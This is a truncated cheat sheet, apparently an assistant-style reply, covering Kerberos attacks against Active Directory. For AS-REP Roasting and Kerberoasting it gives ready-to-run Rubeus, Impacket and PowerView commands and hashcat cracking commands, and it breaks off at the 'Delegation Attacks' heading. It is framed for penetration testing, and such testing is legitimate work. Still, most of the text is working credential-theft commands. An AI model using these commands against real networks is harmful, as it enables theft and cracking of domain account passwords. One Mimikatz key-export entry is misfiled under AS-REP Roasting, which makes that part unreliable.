 Here's a cheat sheet that covers **AS-REP Roasting, Kerberoasting, Delegation, Silver Ticket, and Golden Ticket** attacks from both Linux and Windows environments. These are common Kerberos-based attack techniques used in penetration testing and red teaming.

### **1. AS-REP Roasting**

**Purpose:** Exploit user accounts with Kerberos pre-authentication disabled to retrieve and crack their encrypted AS-REP response.

#### **Windows:**
- **Rubeus:**
  ```powershell
  Rubeus.exe asreproast
  ```
- **Mimikatz:**
  ```powershell
  sekurlsa::ekeys /export
  ```

#### **Linux:**
- **Impacket:**
  ```bash
  impacket-GetNPUsers -dc-ip <DC_IP> <domain_name>/ -usersfile <users.txt> -no-pass -format hashcat
  ```
- **Hashcat (cracking AS-REP hashes):**
  ```bash
  hashcat -m 18200 <hashes.txt> <wordlist.txt>
  ```

### **2. Kerberoasting**

**Purpose:** Extract and crack Kerberos Service Tickets (TGS) to obtain plaintext credentials of service accounts.

#### **Windows:**
- **Rubeus:**
  ```powershell
  Rubeus.exe kerberoast
  ```
- **Invoke-Kerberoast (PowerShell):**
  ```powershell
  Get-DomainUser -SPN | Get-DomainSPNTicket | Format-Custom -Property Hash
  ```

#### **Linux:**
- **Impacket:**
  ```bash
  impacket-GetUserSPNs -dc-ip <DC_IP> <domain_name>/<username>:<password> -request
  ```
- **Hashcat (cracking Kerberoast hashes):**
  ```bash
  hashcat -m 13100 <hashes.txt> <wordlist.txt>
  ```

### **3. Delegation Attacks**
